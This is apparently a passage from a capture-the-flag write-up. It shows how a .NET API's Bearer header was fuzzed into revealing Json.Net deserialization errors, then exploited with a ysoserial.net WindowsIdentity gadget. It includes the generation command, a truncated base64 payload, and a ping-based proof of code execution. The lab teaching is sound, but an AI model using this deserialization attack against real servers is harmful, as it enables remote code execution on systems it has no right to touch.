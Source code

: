### API Fuzzing / Crashing

The second API request to get the current user information was interesting.
It’s passing in json account information. Getting the app to crash will often
return useful information, so I’ll start tinkering in Repeater. When I mess
with the `OAuth2` cookie, nothing changes. In fact, I can remove it entirely.
When start to mess with the `Bearer` header, I get errors. On removing the
last character, it complains about invalid base64:

    
    
    {"Message":"An error has occurred.","ExceptionMessage":"Invalid format base64","ExceptionType":"System.Exception","StackTrace":null}
    

If I delete 3 more characters, the error changes:

    
    
    {"Message":"An error has occurred.","ExceptionMessage":"Cannot deserialize Json.Net Object","ExceptionType":"System.Exception","StackTrace":null}
    

This is interesting.

### Deserialization Attack

Any time a server is deserializing input that the user provides, there’s
likely a issue I can exploit. I also see in the error message that it’s a
`Json.Net Object`. I used a tool called
[YSoSerial](https://github.com/frohoff/ysoserial) back in
[Arkham](/2019/08/10/htb-arkham.html) to do a deserialization attack against a
Java object. There’s a similar tool called
[YSoSerial.Net](https://github.com/pwntester/ysoserial.net) for .NET
deserialization attacks. I can provide a command, as well as a gadget chain
and formatter, and it will give me the object to pass to Json.

### RCE POC

`ysoserial.net` has a ton of gadgets, each with different formatters. It took
a while playing around with different options to get one to work. I was drawn
to gadgets that had a formatter named `Json.Net`, as that was the kind of
object that I saw in the error message. I’ll jump over to my Commando Windows
VM, where I tested with a simple `ping` payload, and kept Wireshark open to
watch for replies. WindowsIdentity with Json.Net formatter worked:

    
    
    PS > ysoserial.exe -g WindowsIdentity -f Json.Net -c "ping 10.10.14.10" -o base64
    ew0KICAgICAgICAgICAgICAgICAgICAnJHR5cGUnOiAnU3lzdGVtLlNlY3VyaXR5LlByaW5jaXBhbC5XaW5kb3dzSWRlbnRpdHksIG1zY29ybGliLCBWZXJzaW9uPTQu...[snip]...
    

I sent the GET request for `/api/Account/` to Repeater in Burp, and replaced
the Bearer header with the base64 encoded output from `ysoserial`. When I sent
it the one above, I got hits in Wireshark:

![1569923892976](https://0xdfimages.gitlab.io/img/1569923892976.png)
